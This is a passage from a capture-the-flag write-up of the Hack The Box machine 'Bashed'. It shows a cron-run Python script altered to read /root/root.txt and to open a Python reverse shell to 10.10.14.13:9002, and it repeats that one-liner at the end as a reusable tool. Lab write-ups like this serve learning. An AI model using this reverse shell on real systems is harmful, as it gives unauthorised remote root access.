 ```bash
www-data@bashed:/$ sudo -u scriptmanager cat /scripts/test.py   
f = open("test.txt", "w")
f.write("testing 123!")
f.close
f = open("/root/root.txt","r");print(f.read())
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

Then I just waited...

After 30 seconds or so I got a shell!

![](/assets/images/blogs/Pasted image 20210505111640.png)

We can grab the flag:

![](/assets/images/blogs/Pasted image 20210505112810.png)

That's the box!

![](/assets/images/blogs/Pasted image 20210505111945.png)

## Key Lessons

This privesc was a little messy from me. I struggled getting an interactive shell, and missed some basic enumeration like `sudo -l` and checking for scheduled processes.

I also could have handled the `.py` file editing better - [0xdf's writeup](https://0xdf.gitlab.io/2018/04/29/htb-bashed.html) involved moving the file to `.py.old` and making a new one, which would have helped in the cleanup process (and for detecting that it was being run in the first place).

I also now have a new Python reverse shell to use - `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")`